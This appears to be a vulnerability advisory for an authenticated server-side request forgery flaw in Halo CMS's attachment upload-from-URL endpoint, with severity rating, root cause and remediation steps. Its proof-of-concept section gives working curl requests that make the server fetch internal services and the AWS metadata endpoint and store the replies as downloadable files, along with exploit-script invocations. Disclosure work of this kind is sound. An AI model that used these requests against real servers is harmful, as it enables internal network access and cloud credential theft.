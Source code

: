 # VULN-002: Authenticated SSRF in Halo CMS Upload Service
<p align="left">
  <a href="https://twitter.com/abdulr7mann">
    <img src="https://img.shields.io/twitter/follow/abdulr7mann" alt="Twitter">
  </a>
</p>
**Published:** 2025-10-27
**Reporter:** @abdulr7mann
**Severity:** High (CVSS 8.5)

---

## Summary

Halo CMS versions 2.21 and likely all 2.x releases contain an authenticated Server-Side Request Forgery vulnerability in the attachment upload service. The `uploadFromUrl()` method in `DefaultAttachmentService.java` performs dual HTTP requests (HEAD and GET) to user-supplied URLs without validation, allowing authenticated users with content creator privileges to access internal networks, cloud metadata services, and store exfiltrated data as downloadable attachments.

- **Vulnerability ID:** VULN-002
- **CWE:** CWE-918 (Server-Side Request Forgery)
- **CVSS v3.1:** 8.5 High — `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N`
- **Affected Versions:** Halo CMS v2.21 (confirmed), likely all 2.x
- **Authentication Required:** Content creator role (Post Author) or higher

---

## Impact

- Internal network probing and service discovery via authenticated users
- Cloud metadata server access with credential exfiltration to attachments
- Internal service enumeration and response storage
- Kubernetes API access in containerized deployments
- Data persistence advantage: responses saved as downloadable files

---

## Affected Components

- **Product:** Halo CMS
- **Versions:** v2.21 (confirmed), suspected all 2.x series
- **Component:** `application/src/main/java/run/halo/app/core/user/service/impl/DefaultAttachmentService.java:143`
- **Vulnerable Method:** `uploadFromUrl(@NonNull URL url, @NonNull String policyName, String groupName, String filename)`
- **API Endpoints:**
  - `/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url` (User Center)
  - `/apis/api.console.halo.run/v1alpha1/attachments/-/upload-from-url` (Console)
- **RBAC Configuration:** Accessible via `role-template-uc-attachment-manager` granted to Post Author role

---

## Technical Details

The `uploadFromUrl()` method uses `ReactiveUrlDataBufferFetcher` to perform dual HTTP requests without URL validation. First, a HEAD request retrieves metadata (Content-Type, filename), then a GET request downloads the full content. No validation is performed on target URLs, allowing requests to private IP addresses, cloud metadata endpoints, and internal services. Response content is downloaded and stored as an attachment in Halo's storage system, providing persistent access to exfiltrated data.

**Root Cause:** Missing URL validation, no private IP filtering, dual SSRF requests with content persistence, overly permissive RBAC (content creators have access).

---

## Proof of Concept

**Setup:**
```bash
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21
# Complete initial setup and create user account
```

**Exploit (requires authentication):**
```bash
# Authenticate and obtain session cookie
# See exploit.py for automated RSA-based authentication

# SSRF to canary - observe HEAD + GET requests
curl -X POST -H "Content-Type: application/json" -H "Cookie: SESSION=<token>" \
  -d '{"url":"http://host.docker.internal:8889/test","filename":"canary.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# Internal service access with content exfiltration
curl -X POST -H "Content-Type: application/json" -H "Cookie: SESSION=<token>" \
  -d '{"url":"http://127.0.0.1:8090/actuator/health","filename":"internal.json"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# AWS metadata exfiltration (stored as downloadable attachment)
curl -X POST -H "Content-Type: application/json" -H "Cookie: SESSION=<token>" \
  -d '{"url":"http://169.254.169.254/latest/meta-data/","filename":"aws-metadata.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
```

**Automated PoC:**
```bash
python3 exploit.py http://localhost:8090 --username user --password pass
python3 exploit.py http://localhost:8090 --username user --password pass --target "http://internal-db:5432"
```

See [detailed technical analysis](deep-technical-analysis.md) for comprehensive exploitation methodology including authentication framework.

---

## Remediation

**Immediate Actions:**
- Update to latest, or:
- Restrict `/attachments/-/upload-from-url` to admin-only access
- Implement URL allowlist for approved external storage domains
- Deploy network-level egress filtering

**Recommended Fixes:**
- Implement strict URL allowlist (trusted CDN domains only)
- Block all private IP ranges (RFC 1918, loopback, link-local, cloud metadata)
- Validate resolved IP addresses before and after DNS lookup (prevent DNS rebinding)
- Restrict URL schemes to HTTPS only
- Separate RBAC permissions: regular users upload local files, admins only for external URLs
- Remove `attachments/upload-from-url` from `role-template-uc-attachment-manager`
- Create admin-only role for external URL uploads
- Implement content-type and size validation
- Add comprehensive security logging with alerting on suspicious patterns

---

## References

- [Technical Analysis & Authentication Framework](deep-technical-analysis.md)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

